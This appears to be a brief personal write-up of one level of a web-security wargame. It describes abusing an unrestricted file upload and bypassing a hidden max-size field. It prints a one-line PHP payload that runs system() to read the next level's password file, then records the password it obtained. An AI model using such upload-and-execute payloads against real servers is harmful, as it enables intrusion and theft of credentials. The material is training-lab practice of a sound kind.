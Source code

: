# 11 -> 12

- we can upload any file $\implies$ php shell
- changed max file size in the inspector (hidden input)
- downloaded php rev shell from pentestmonkey
- I checked a writeup because I wasn't sure a reverse shell was I allowed
- Therefore I used `<?php echo system("cat /etc/natas_webpass/natas13"); ?>` as my php script and named it image.jpg

>pass: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 
